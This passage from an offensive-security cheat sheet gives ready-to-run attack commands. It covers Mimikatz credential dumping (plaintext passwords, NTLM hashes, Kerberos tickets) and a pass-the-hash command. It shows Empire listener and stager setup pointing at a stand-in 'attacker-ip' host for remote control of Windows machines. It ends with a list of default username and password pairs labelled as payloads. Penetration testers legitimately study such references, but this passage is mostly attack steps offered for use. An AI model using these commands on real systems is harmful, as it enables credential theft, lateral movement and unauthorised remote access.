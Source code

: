 **Reference Links:**
- [THC Hydra GitHub](https://github.com/vanhauser-thc/thc-hydra)

### Tool Name: Mimikatz
**Description:** Windows credential extraction tool that can extract plaintext passwords, hashes, and Kerberos tickets from memory.

**Example Usage:**
```powershell
# Extract plaintext credentials from memory
sekurlsa::logonpasswords

# Extract NTLM hashes
sekurlsa::msv

# Extract Kerberos tickets
sekurlsa::tickets

# Pass-the-hash attack
sekurlsa::pth /user:admin /domain:domain.com /ntlm:hash
```

**Reference Links:**
- [Mimikatz GitHub](https://github.com/gentilkiwi/mimikatz)

### Tool Name: Empire/PowerShell Empire
**Description:** Post-exploitation framework that provides PowerShell and Python agents for persistent access and lateral movement.

**Example Usage:**
```bash
# Start Empire
sudo ./empire

# Create listener
listeners
uselistener http
set Host attacker-ip
execute

# Generate stager
usestager windows/launcher_bat
set Listener http
execute
```

**Reference Links:**
- [PowerShell Empire GitHub](https://github.com/EmpireProject/Empire)

## All Possible Payloads for Manual Approach

### Password Attack Payloads
```
# Common default credentials
admin:admin
administrator:password
root:root
admin:password
guest:guest
user:user
test:test
sa:sa (SQL Server)
oracle:oracle
postgres:postgres

```